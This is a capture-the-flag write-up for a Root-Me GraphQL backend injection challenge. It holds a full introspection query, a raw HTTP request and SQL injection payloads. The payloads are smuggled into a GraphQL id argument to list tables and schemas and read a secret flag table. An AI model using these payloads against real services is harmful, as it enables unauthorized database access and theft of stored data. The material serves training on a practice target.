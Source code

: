 # GraphQL - Backend injection

`api vuln`: 
- url: http://challenge01.root-me.org:59079/rocketql
- method: POST
- payload:
```json
{"query":"{__schema{types{name,fields{name}}}}"}
```
=> graphql injection

## step 1: use graphql introspection to get all types and fields

`{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}`

## step2: display chart
https://graphql-kit.com/graphql-voyager/

![alt text](chart.png)

payload: 
```
POST /rocketql HTTP/1.1
Host: challenge01.root-me.org:59079
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org:59079/
Content-Type: application/json
Content-Length: 129
Origin: http://challenge01.root-me.org:59079
Connection: keep-alive
X-PwnFox-Color: red
Priority: u=0

{"query":"{ rocket(id: \"0 UNION SELECT 2,table_name,2,2 FROM information_schema.tables  -- -\") { name, country, is_active } }"}
```

payload found schema: 
```json
"query":"{ rocket(id: \"0 UNION SELECT 2,schema_name,2,2 FROM INFORMATION_SCHEMA.schemata limit 1 offset 2-- -\") { name, country, is_active } }"
```

payload get flag:

```json
"query":"{ rocket(id: \"0 UNION SELECT 2,value,2,2 FROM secret_db.flag limit 1 offset 0-- -\") { name, country, is_active } }"
```

i wrote sol.py to enum table (uncomment to use) and column (uncomment to use).